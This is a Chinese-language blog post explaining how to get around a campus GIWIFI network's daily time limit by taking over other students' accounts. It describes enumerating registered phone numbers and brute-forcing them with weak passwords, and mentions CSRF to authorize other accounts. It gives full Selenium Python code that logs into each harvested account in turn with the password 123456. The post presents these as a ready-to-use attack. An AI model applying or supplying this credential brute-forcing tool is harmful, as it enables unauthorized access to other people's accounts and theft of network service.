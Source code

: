 ```yaml
---
layout: post
title:  "GIWIFI 破解思路"
date:   2019-1-16 20:49:43 
author: co0ontty
categories: python Tools ALL 
tags: python Tools ALL
describe: Giwifi 登录时间限制破解
cover: 'https://i.loli.net/2019/04/05/5ca6ba3c2d9ee.png'
---
```


## 发现思路：

#### 账号：

1、我所在的学校使用 GIWIFI 的校园网解决方案，登陆账号为学生本人的手机号。学校学生使用的手机号均为学校内运营商入学时发放的校园卡，均处在一个号段，每个账号每天拥有 15 分钟的免费时长。
2、手机号如果注册过 GIWIFI，正确登陆后便可使用互联网服务。如果账号未注册 GIWIFI，使用任意密码登录后便会要求填写身份信息。根据这项区别便可使用手机号段字典爆破出注册过的账号。

#### 密码：

GIWIFI 官方要求使用的密码为 6 位及以上，所以使用弱口令字典进行爆破。  

#### 登陆：

有了账号和密码，便需要解决登陆问题。我的思路是使用 python 进行自动登录。同时可以使用 CSRF 攻击实现越权对其他账号上网状态进行授权

## 实现过程：

##### 1、使用 python 的 webdriver 库，自动打开校园网的登陆链接。

```py
wd = webdriver.Chrome()

wd.implicitly_wait(10)  

wd.set_page_load_timeout(10)

wd.get("http://login.gwifi.com.cn/cmps/admin.php/api/login/?
gw_address=172.16.1.5&gw_port=8060&gw_id=GWIFI-qingdaoshankedaD2&ip=172.17.142.232&mac=F0:18:98:19:70:D9&url=http://www.baidu.com?ua=Mozilla&apmac=00:0b:ab:f1:c6:d4&ssid=")  

wd.maximize_window()
```

最后一行代码指定 python 调用浏览器后的显示方式为最大化，如果要静默使用可以将 maximize 换成 minimize  

##### 2、传递用户名密码参数，并点击登陆

```py
name_input = wd.find_element_by_id('first_name')  # 找到用户名的框框. 

pass_input = wd.find_element_by_id('first_password')  

login_button = wd.find_element_by_id('first_button')  

name_input.clear()  

name_input.send_keys(phonenumber[0])  # 填写用户名  

time.sleep(0.2) 

pass_input.clear()

pass_input.send_keys(123456)  # 填写密码

time.sleep(0.2)

login_button.click()         # 点击登录

wd.implicitly_wait(4)

wd.quit()
```

##### 3、其他工作

·关于用户名密码，我选择的方式是存在文件里，然后使用 python 读文件的方式向网页中传递参数。  
·关于 wd 库，之所以选择 wd 库是因为这样可以看到登陆的状态，若果选择通过 requests 库直接传递参数，便不会在第一时间发现网络连接不通畅和详细的问题。  
·关于自动登录，使用 sh 的 ping 命令原理，新建脚本，每五分钟运行一次，断网后自动调用 python 脚本。 

## 全部代码：

```py
# -*- coding:utf-8 -*-

from selenium import webdriver
from selenium.webdriver.support.wait import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
from selenium.common.exceptions import NoSuchElementException
from selenium.webdriver.common.by import By
import time


# option=webdriver.ChromeOptions()
# option.add_argument('--headless')
# option.add_argument('--no-sandbox')
# option.add_argument('--start-maximized')
# wd = webdriver.Chrome(chrome_options=option)


wd = webdriver.Chrome()
wd.implicitly_wait(10)
wd.set_page_load_timeout(10)
wd.get("http://login.gwifi.com.cn/cmps/admin.php/api/login/?gw_address=172.16.1.5&gw_port=8060&gw_id=GWIFI-qingdaoshankedaD2&ip=172.17.142.232&mac=F0:18:98:19:70:D9&url=http://www.baidu.com?ua=Mozilla&apmac=00:0b:ab:f1:c6:d4&ssid=")
wd.maximize_window()
file = open("giwifi2.txt")
phonenumber = file.readlines()
for i in range(len(phonenumber)):
    phonenumber[i] = phonenumber[i].replace("\n","") 
    pass
# print(phonenumber[0])
# print(type(phonenumber))

"""这段可以查看selenium的源码,属于smart wait"""
name_input = wd.find_element_by_id('first_name')  # 找到用户名的框框
pass_input = wd.find_element_by_id('first_password')
login_button = wd.find_element_by_id('first_button')
name_input.clear()
name_input.send_keys(phonenumber[0])  # 填写用户名
time.sleep(0.2)
pass_input.clear()
pass_input.send_keys(123456)  # 填写密码
time.sleep(0.2)
login_button.click()         # 点击登录
wd.implicitly_wait(4)
wd.quit()
print (phonenumber[0])
del phonenumber[0]
file.close()
file = open("giwifi2.txt", "w")
for i in range(len(phonenumber)):
    file.write(phonenumber[i])
    file.write("\n")
    pass
file.close()
print ("All Done")
exit()
```
